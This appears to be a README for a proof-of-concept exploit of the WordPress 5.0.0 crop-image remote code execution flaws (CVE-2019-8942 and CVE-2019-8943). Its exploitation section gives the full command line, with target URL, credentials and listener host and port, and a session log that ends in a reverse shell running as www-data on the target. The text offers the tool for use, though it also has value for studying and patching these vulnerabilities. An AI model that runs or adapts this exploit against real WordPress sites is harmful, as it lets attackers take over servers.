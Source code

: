 ## WordPress 5.0.0 Crop-image Remote Code Execution
### Description
The exploit code leverages the [CVE-2019-8943](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2019-8943) and [CVE-2019-8942](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-8942/) vulnerabilities to gain remote code execution on WordPress 5.0.0 and <= 4.9.8.

### Exploitation

```
root@kali:~# python3 poc.py --url http://mysite.com -u uriel -p qwerty -lhost 10.10.6.2 -lport 443
[*] Authenticating to wordpress
[+] Login successful
[*] Uploading image
[+] Image uploaded
[*] Updating image
[*] Including image into theme
[*] Creating post
[*] Starting listener on 443
[*] Executing reverse shell
bash: cannot set terminal process group (921): Inappropriate ioctl for device
bash: no job control in this shell
www-data@blog:/var/www/wordpress$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### References:
[https://blog.sonarsource.com/wordpress-image-remote-code-execution/](https://blog.sonarsource.com/wordpress-image-remote-code-execution/)

[https://www.youtube.com/watch?v=6Sxs4vQJK\_s](https://www.youtube.com/watch?v=6Sxs4vQJK_s)
